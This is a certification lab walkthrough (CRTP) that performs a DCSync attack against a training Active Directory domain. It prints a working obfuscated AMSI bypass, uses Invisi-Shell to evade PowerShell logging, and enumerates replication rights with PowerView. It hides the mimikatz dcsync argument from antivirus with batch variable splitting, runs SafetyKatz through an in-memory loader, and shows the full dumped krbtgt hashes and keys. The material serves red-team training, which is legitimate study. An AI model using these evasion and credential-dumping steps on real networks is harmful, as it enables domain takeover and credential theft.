


CRTP - Certified Red Team Professional
DCSync Attack
What is a DCSync Attack?
A DCSync attack is a type of credential dumping technique used to extract sensitive information from an Active Directory (AD) database. It allows an attacker to simulate the replication process from a remote Domain Controller (DC) and request credentials from another DC, thereby obtaining NTLM hashes of potentially useful accounts such as KRBTGT and Administrators.
How Does a DCSync Attack Work?
1. Compromise a Privileged Account: The attacker gains access to a standard or non-privileged user account with "Replicating Directory Changes" permission.
1. Discover a Domain Controller: The attacker identifies a DC in the specified domain.
1. Request Replication: Using the Microsoft Directory Replication Service Remote (MS-DRSR) protocol, the attacker requests the DC to replicate sensitive information such as password hashes.
1. Obtain NTLM Hashes: The attacker uses the collected hashes to create a Golden Ticket and potentially run a Pass the Ticket (PTT) attack to gain unrestricted access to the complete AD domain.
Tools Used
Enumeration
For this attack to work, user must have Replication Rights. We can start by enumerating the User Rights via PowerShell.
Note that, this lab will assume that we do have to AV enabled.
We start by executing Invisi-Shell to bypass all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) and then AMSI bypass.
Not I’m using the RunWithPathAsAdmin.bat because I’m already an administrator on the machine, otherwise I should be running the RunWithRegistryNonAdmin.bat
RunWithPathAsAdmin.bat

AMSI Bypass
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )Now let’s start by Importing PowerView.ps1 modules.
. .\PowerView.ps1
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student451"}
Explanation
1. Get-DomainObjectAcl:
1. Filtering:
1. Adding IdentityName:
1. Final Filtering:
Above by analyzing our student451 Rights, we can see that we do have DS-Replication-Get-Changes-In-Filtered-Set enabled in ObjectAceType property.

OK. we can see above that we do have Replication Rights on our user.
We can use the student Right to do a DCSync attack by requesting KRBTGT hashes, any valid user in the domain or even dump all Domain users Hashes.
PELoader.exe is a tool used to load a payload into memory. So I’ll use PELoader.exe now to load and execute Rubeus.exe into memory. Pay attention that if we are using PELoader.exe to load payloads into memory only.
It is also good that we execute ArgSplit.bat first to encode parameters of Rubeus, SafetyKatz and BetterSafetyKatz.
Execute argSplit.exe and type:
lsadump::dcsync
set "z=c"
set "y=n"
set "x=y"
set "w=s"
set "v=c"
set "u=d"
set "t=:"
set "s=:"
set "r=p"
set "q=m"
set "p=u"
set "o=d"
set "n=a"
set "m=s"
set "l=l"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"Invoking SafetyKatz.exe using PELoader.exe.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit”
** SAM ACCOUNT **
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 11/11/2022 10:59:41 PM
Object Security ID : S-1-5-21-719815819-3726368948-3917688648-502
Object Relative ID : 502
Credentials:
Hash NTLM: 4e9815869d2090ccfca61c1fe0d23986
ntlm- 0: 4e9815869d2090ccfca61c1fe0d23986
lm - 0: ea03581a1268674a828bde6ab09db837
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
Random Value : 6d4cc4edd46d8c3d3e59250c91eac2bd
* Primary:Kerberos-Newer-Keys *
Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848
aes128_hmac (4096) : e74fa5a9aa05b2c0b2d196e226d8820e
des_cbc_md5 (4096) : 150ea2e934ab6b80
* Primary:Kerberos *
Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
Credentials
des_cbc_md5 : 150ea2e934ab6b80
* Packages *
NTLM-Strong-NTOWF
* Primary:WDigest *
01 a0e60e247b498de4cacfac3ba615af01
02 86615bb9bf7e3c731ba1cb47aa89cf6d
03 637dfb61467fdb4f176fe844fd260bac
04 a0e60e247b498de4cacfac3ba615af01
05 86615bb9bf7e3c731ba1cb47aa89cf6d
06 d2874f937df1fd2b05f528c6e715ac7a
07 a0e60e247b498de4cacfac3ba615af01
08 e8ddc0d55ac23e847837791743b89d22
09 e8ddc0d55ac23e847837791743b89d22
10 5c324b8ab38cfca7542d5befb9849fd9
11 f84dfb60f743b1368ea571504e34863a
12 e8ddc0d55ac23e847837791743b89d22
13 2281b35faded13ae4d78e33a1ef26933
14 f84dfb60f743b1368ea571504e34863a
15 d9ef5ed74ef473e89a570a10a706813e
16 d9ef5ed74ef473e89a570a10a706813e
17 87c75daa20ad259a6f783d61602086aa
18 f0016c07fcff7d479633e8998c75bcf7
19 7c4e5eb0d5d517f945cf22d74fec380e
20 cb97816ac064a567fe37e8e8c863f2a7
21 5adaa49a00f2803658c71f617031b385
22 5adaa49a00f2803658c71f617031b385
23 6d86f0be7751c8607e4b47912115bef2
24 caa61bbf6b9c871af646935febf86b95
25 caa61bbf6b9c871af646935febf86b95
26 5d8e8f8f63b3bb6dd48db5d0352c194c
27 3e139d350a9063db51226cfab9e42aa1
28 d745c0538c8fd103d71229b017a987ce
29 40b43724fa76e22b0d610d656fb49ddd
mimikatz(commandline) # exit
Bye!We were able to do a DCSync Attack.